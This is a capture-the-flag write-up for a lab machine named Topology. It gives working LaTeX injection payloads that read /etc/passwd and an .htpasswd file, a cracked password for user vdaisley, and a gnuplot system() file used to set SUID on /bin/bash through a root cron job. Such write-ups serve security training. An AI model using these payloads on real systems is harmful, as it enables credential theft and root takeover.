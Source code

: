 # Topology

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.76.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 23:49 +08
Nmap scan report for 10.129.76.27
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

HTTP exploits it seems.&#x20;

### LaTeX Project --> LFI

The website is seems to be a university website:

<figure><img src="../../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

There's a LaTeX Equation Generator available. LaTeX is a software made for documentation, and I'm roughly familiar with how it works to make mathematical equations for stuff like university math module notes. Anyways, we have to add `latex.topology.htb` to our `/etc/hosts` file to visit the `equation.php` site available.&#x20;

On the site itself, it just shows some basic LaTeX syntax:

<figure><img src="../../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

There are some exploits available pertaining to Latex Injection, such as being able to read machine files. I tried to use `\input{/etc/passwd}` to read files, but there's a WAF blocking it:

<figure><img src="../../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

I tested different payloads, and eventually found one that worked on this site:

{% embed url="https://0day.work/hacking-with-latex/" %}

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Using this, we can get the first line of the `/etc/passwd` file:

<figure><img src="../../../.gitbook/assets/image (6) (12).png" alt=""><figcaption></figcaption></figure>

Before carrying on, I wanted to some proper web enumeration to find out what I was supposed to do with this LFI. Using `wfuzz`, I found a `dev` subdomain:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
```

This returns a 401, and visiting it requires credentials:

<figure><img src="../../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

This is a HTTP sign in, meaning we can probably find the credentials in a `.htpasswd` file somewhere. Also, it coincides with the one-line LFI that we have. However, the same command does not work with the `/var/www/dev/.htpasswd` file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like `\lstinputlisting`. However, this payload doesn't work:

```latex
\lstinputlisting{/var/www/dev/.htpasswd}
```

It doesn't work (as I've learnt) because the machine asks for **LaTeX inline math mode.** There are different modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the machine to process our query by switching mode for it.&#x20;

{% embed url="https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and" %}

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text:

<figure><img src="../../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to `$()` in bash) and loads the hash:

<figure><img src="../../../.gitbook/assets/image (2) (12).png" alt=""><figcaption></figcaption></figure>

We can crack the hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:04 DONE (2023-06-12 00:30) 0.2375g/s 236511p/s 236511c/s 236511C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the `dev` subdomain:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

More importantly, we can access the user via `ssh`:

<figure><img src="../../../.gitbook/assets/image (1) (13).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GNUPlot

Within the `/opt` directory, there was a `gnuplot` file present:

```
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

I also ran a `pspy64` while searching more about this particular software, and found some interesting processes:

```
2023/06/11 12:35:01 CMD: UID=0    PID=2774   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2773   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2776   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2775   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2781   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2787   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/11 12:35:01 CMD: UID=0    PID=2786   | sed s/,//g 
2023/06/11 12:35:01 CMD: UID=0    PID=2785   | 
2023/06/11 12:35:01 CMD: UID=0    PID=2782   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;                                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2788   | gnuplot /opt/gnuplot/networkplot.plt 
```

We don't have read access to the directory, but we have write access, meaning we have to manipulate the `.plt` files present on the `/opt` directory to somehow achieve RCE as `root`. Or, we can just add another `.plt` file.&#x20;

I found a resource that shows the `system` keyword can be used to execute system commands:

{% embed url="http://www.bersch.net/gnuplot-doc/system.html" %}

We just need to create a `priv.plt` file within the directory:

```
system "chmod u+s /bin/bash"
```

Then, we can just wait for `root` to execute our new file and privesc that way:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
